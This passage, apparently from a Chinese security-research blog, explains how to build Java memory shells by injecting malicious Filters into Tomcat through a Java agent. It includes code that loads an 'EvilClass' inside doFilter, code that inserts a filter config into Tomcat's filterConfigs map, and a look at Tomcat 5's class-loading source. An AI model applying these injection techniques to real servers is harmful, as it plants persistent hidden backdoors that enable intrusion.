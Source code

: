 期间我还尝试了如下，因为 Agent 默认会由 ClassLoader.getSystemClassLoader() 加载，所以我们可以直接指定其加载我们的恶意类，不过很遗憾的是在高版本 JDK 中部分中间件模块限制，不允许我们访问指定类，不够通用。

```java
@Override
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain){
    if(Class.forName("org.example.EvilClass", true, ClassLoader.getSystemClassLoader()).newInstance().equals(new Object[]{request, response, chain})){
        return;
    }   
    // other business code
}
```

而就是在这个找寻通用 ASM Agent 编写方式的过程中，让我想到了一个古老的类加载问题，在这里我找到了恶意类应该去的地方。

## ApplicationFilterConfig

在 Tomcat 注入 Filter 内存马时，有时候会莫名其妙报 ClassNotFoundException 但是内存马已经能 work 了，所以在测试的时候直接跳过，我甚至猜的原因写了个可能（主打一个测试用例能通过了，其他报错都是虚无），但其实这样做不对，在测试过程中任何 warning 都应该关注（其实还有许多我当时没精力处理的 warning）。

```java
try {
    Object filterConfig = constructors[0].newInstance(context, filterDef);
    Map filterConfigs = (Map) getFieldValue(context, "filterConfigs");
    filterConfigs.put(getClassName(), filterConfig);
    System.out.println("filter inject success");
} catch (Exception e) {
    // 一个 tomcat 多个应用部分应用通过上下文线程加载 filter 对象，可能在目标应用会加载不到
    if (!(e.getCause() instanceof ClassNotFoundException)) {
        throw e;
    }
}
```

就在我去找这块报错到底是为何抛出来的时候，我发现了一切的真相。恰好我此时正在调试 Tomcat5 的环境，所以在 Tomcat5 catalina.jar 里边的 `org.apache.catalina.core.ApplicationFilterConfig#getFilter` 发现了如下代码（低版本没封装，看起来相对比较容器和直观）：

```java
// ApplicationFilterConfig
Filter getFilter() throws ClassCastException, ClassNotFoundException, IllegalAccessException, InstantiationException, ServletException {
    if (this.filter != null) {
        return this.filter;
    } else {
        String filterClass = this.filterDef.getFilterClass();
        ClassLoader classLoader = null;
        if (filterClass.startsWith("org.apache.catalina.")) {
            classLoader = this.getClass().getClassLoader();
        } else {
            classLoader = this.context.getLoader().getClassLoader();
        }

        Class clazz = classLoader.loadClass(filterClass);
        this.filter = (Filter)clazz.newInstance();
        // ...
        return this.filter;
    }
}
```
